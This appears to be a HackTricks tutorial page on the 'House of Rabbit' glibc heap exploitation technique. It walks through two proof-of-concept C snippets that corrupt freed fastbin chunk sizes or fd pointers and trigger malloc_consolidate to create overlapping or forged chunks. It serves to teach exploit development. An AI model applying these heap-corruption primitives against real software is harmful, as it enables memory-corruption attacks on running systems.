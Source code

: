 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Ability to modify fast bin fd pointer or size**: This means you can change the forward pointer of a chunk in the fastbin or its size.
2. **Ability to trigger `malloc_consolidate`**: This can be done by either allocating a large chunk or merging the top chunk, which forces the heap to consolidate chunks.

### Goals

1. **Create overlapping chunks**: To have one chunk overlap with another, allowing for further heap manipulations.
2. **Forge fake chunks**: To trick the allocator into treating a fake chunk as a legitimate chunk during heap operations.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```

We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Step 2: Free Chunks**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```

We free both chunks, adding them to the fastbin list.

* **Step 3: Modify Chunk Size**

```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```

We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Step 4: Trigger `malloc_consolidate`**

```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```

**Explanation**: We allocate two chunks, one smaller and one larger, to set up the heap for the fake chunk.

* **Step 2: Create fake chunk**

```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```

We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **Step 3: Free `chunk1`**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
```

**Explanation**: We free `chunk1`, adding it to the fastbin list.

* **Step 4: Modify `fd` of `chunk1`**

```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```

**Explanation**: We change the forward pointer (`fd`) of `chunk1` to point to our fake chunk inside `chunk2`.

* **Step 5: Trigger `malloc_consolidate`**

```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fast bin chunk to create overlapping chunks or manipulating the `fd` pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
